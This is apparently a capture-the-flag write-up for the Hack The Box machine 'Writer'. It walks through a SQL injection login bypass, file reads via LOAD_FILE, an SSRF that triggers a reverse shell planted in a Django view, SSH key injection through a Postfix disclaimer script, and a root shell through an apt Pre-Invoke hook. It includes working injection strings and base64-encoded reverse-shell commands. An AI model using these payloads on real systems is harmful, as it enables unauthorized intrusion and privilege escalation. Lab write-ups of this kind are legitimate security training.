# Summary
Writer was a nice medium box which had a fair few steps to it. The inital foothold required chaining a SQL injection read source code with an SSRF against a development site on localhost 8080. There were three privilege escalations where it was clear early on what you had to do for each but the execution required some googling around, reading `man` pages and some failed attempts.

<details open>
<summary> </summary>

* [Enumeration](#enumeration)
* [SQL Injection](#sql-injection)
* [Shell as www-data](#shell-as-www-data)
* [Shell as kyle](#privilege-escalation-to-kyle)
* [Shell as john](#privilege-escalation-to-john)
* [Shell as root](#privilege-escalation-to-root)
 
</details>

## Enumeration
I'll start with a port scan using my alias `fscan` which launches a default script and version scan against the ports found from a full port scan.



We see ssh on port 22, apache serving a website on port 80 and samba on 139/445. I'll quickly see what I can do over smb.



I don't have any access here. I'll revisit if I find some credentials.



Gobuster finds a directory called `administrative` which leads to a login page

## SQL Injection



I'll test for SQL injection with the payload `admin'-- -`. This logs me in. I suspect the query is along the lines of 

`select * from users where username={username} and password=md5({password})`

so my injection malforms the query into

`select * from users where username=admin` 

which authenticates me as the admin user. I'll come back and examine the injection further if need be.

I get redirected to `/dashboard`.



clicking around I find a `/stories` directory.



It has the option to upload a `.jpg` file from the local computer or from a url. 



I'll upload a `jpg` and intercept the request in burpsuite. I'll append `.php` to the filename, change the mimetype to `application/x-php` and append a simple command injection payload after the magic bytes.



I can see the file has sucessfuly upload to the `/static/img` folder. 



Visiting the url `static/img/bug.jpg.php?cmd=id` returns an error however. It seems the webpage isn't configured to execute `php` despite the extension.



I'll revisit the sql injection to see what I can do here. I know the username parameter is injectable. I'll try the payload `test' union select 1,2,3,4,5,6` for the username and a random password. Intercepting the response in burpsuite I see `2` gets reflected back onto the webpage as `welcome 2`



Next I'll try changing the 2 for `LOAD_FILE('/etc/passwd')` and I see the contents of `/etc/passwd` are returned so I have LFI.



I'll create a quick python script to send the injection payload including the specified file as the first argument of the script to the login page, parse out the file contents and save the file. I'll use mysql's `TO_BASE64()` function to return the base64 encoded file to avoid HTML entity encoding in the response HTML.



I'll check the website configuration by including the file `/etc/apache2/sites-enabled/000-default.conf`



It shows the root of the website is `/var/www/writer.htb` and there's a `.wsgi` file which I'll check out. It also points to a development site on port `8080` only accessible through localhost. If I can find an SSRF I could interact with this site.



There's a comment about an `__init__.py` file which I'll read next. The exact location of the file is a bit ambiguous as `from writer import app` could mean a file `writer.py` containing an `app` object, a parent directory `/writer` containing `app.py` or `writer/__init__.py` containing an `app` object, but trying the path `/var/www/writer.htb/__init__.py` works. This file leaks some credentials:



# Shell as www-data

From `/etc/passwd` I saw the user `kyle`. I'll try the credentials `kyle:ToughPasswordToCrack` against smb.



The credentials work and grant me read/write access to the `writer2_project` share. This is likely the development site only accessible from localhost on port `8080`. I'll use `smbclient //10.10.11.101/writer2_project -u kyle -p ToughPasswordToCrack` to access the share. This is interesting as I could write a payload into the share and if I can cause it to execute on the server I'll have RCE. Listing the contents of the share shows 



`writer_web/urls.py` contains

```
from django.conf.urls import url
from writer_web import views

urlpatterns = [
    url(r'^$', views.home_page, name='home'),
]
```

The `r'^$'` matches an empty url resource path i.e. `http://127.0.0.1:8080/` and requesting this url will redirect to `/home` and load `views.home_page`. This file imports `views.py` which contains the `home_page` object

```
from django.shortcuts import render
from django.views.generic import TemplateView

def home_page(request):
    template_name = "index.html"
    return render(request,template_name)
```

so I can write a reverse shell into the `home_page` function and it will execute when I the site. Since this site isn't accessible externally I'll need an SSRF to trigger the payload. An SSRF is when you send a specially crafted request to a server and the server executes a request on your behalf. This allows access to functionality you can't directly obtain. Luckily, when we uploaded the `.jpg` files to the `/stories` directory there was an option to upload from a url. If we get the server to process a request to `127.0.0.1:8080` we'll be able to execute our payload.

I'll use the reverse shell `/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.20/9001 0>&1"`, base64 encode it to avoid special characters and use `os.sytem()` to execute shell commands. All together `views.py` becomes

```
from django.shortcuts import render
from django.views.generic import TemplateView
import os

def home_page(request):
    os.system('echo -n L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjAvOTAwMSAwPiYxIg== | base64 -d | bash')
    template_name = "index.html"
    return render(request,template_name)
```

I'll upload this to the share with 

`smb: \writer_web\> put views.py`

and start a listener on port `9001`.

On `/stories/add` I'll upload a file from url. I just put `http://google.com` as there's some client side filtering, but I'll intercept the request in burpsuite and modify the url there. I know from the source code the filename/url must contain `.jpg` so I'll put the `image_url` as `http://127.0.01:8080/?.jpg` which matches an empty url resource path as the `?.jpg` acts as a fake query parameter. An anchor `#.jpg` also works.



and on my listener I get a connection as `www-data`



## Privilege Escalation to Kyle

In the current directory there's a file called `manage.py`. This file is automatically created in Django projects and is Django’s command-line utility for administrative tasks. Reading the documentation <a href="https://docs.djangoproject.com/en/4.1/ref/django-admin/#shell">here</a> shows you can interact with the projects databases using the `dbshell` argument.



In the `auth_user` table we see a django password hash for kyle. Copying this to a file `hash` and running my alias `j hash`, it cracks as `marcoantonio`. This allows us to `su` to kyle.



## Privilege Escalation to John

We can see kyle is in the `filter` group.

I'll use find to see what files the `filter` group owns.



`/var/spool/filter` is empty, but we can write to `/etc/postfix/disclaimer`. Postfix is a mail transfer agent we can use to send mail. `/etc/postfix/master.cf` what scripts run when a user receives mail among other things. The last line of `master.cf` shows that `/etc/postfix/disclaimer` runs as john when a user receives mail. And since I can write to `/etc/postfix/disclaimer` I'll include a payload, send mail to a user on the box, and my payload should run as john. I'll add my ssh public key to john's authorized keys by adding the following line to `/etc/postfix/disclaimer`:

`echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCKiry8TPPU0lHxqHU41I4c7vQHqE8OAWwW0UkXAdoMuia8PKi7jRYamltQF/C45GBS745vT4LSAhgazlK6ujQt4Hi3SIxCNkF3xzskbamWNrjqLgk1jfAczVgoNAdqLsaZSQ7Z46ewoU7F5JC+1tYKdoEyXi7tWHbvg45POXmtTyuXtty50WoDq0uklunB9tC2LQZtgoG8fewCRFZz+Q5JSKPjoGCqm+O/MejKvGxpR1JD1I6XhbbpPntFkBRHJQP/+oGw8+2+peXA7392eEP9+0SapCK5e+sAEoVh44H+4BopWl1A5Sq49PPcGZPifcR1jq+iLEYAzgMCwd7ksrn302kOTyfSKTHUkcnrca/k9f9VTQ42S5RMdLmzehfZnyeF5izM2er0IRQuyhyi+8EUturfHfTrlVjlTJjZ62PrWn8T0KokTvjN8nPoVJWZKm5OeFQL3mjA7pRXio91FGQ5OEPFBTE4ONACEgSmPKnChNak/IjsvlxFOON6AdhPLdk= kali@kali' >> /etc/postfix/disclaimer`

Next I'll create a file in `/home/kyle` containing the commands to send an email to `www-data`, then run the script through netcat. It looks like this



now I can ssh in as john.



## Privilege Escalation to Root

I'll check what groups john is a part of and see what files his groups own



we have write access over `/etc/apt/apt.conf.d/` as the `management` group. Further, `ps` shows root executing `apt-get update`. The files in `/etc/apt/apt.conf.d/` are instructions for the configuration of apt. To this end we can write a file which tells `apt` to execute something of our choosing. This can be done with `apt::update::pre-invoke {"command";};` which tells apt to run the command just before `apt update` is ran. I'll choose the payload to be the base64 encoded reverse shell I used earlier in the SSRF and I'll run:

`echo 'apt::Update::Pre-Invoke {"echo -n L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjAvOTAwMSAwPiYxIg== | base64 -d | bash";};' > pwn`

I'll set up a netcat listener on port 9001 and wait for the reverse shell to hit which it does after a minute or so



checking the root crons I see root was running `apt-get update` every 2 minutes 



From here I find the root flag in `/root/root.txt`

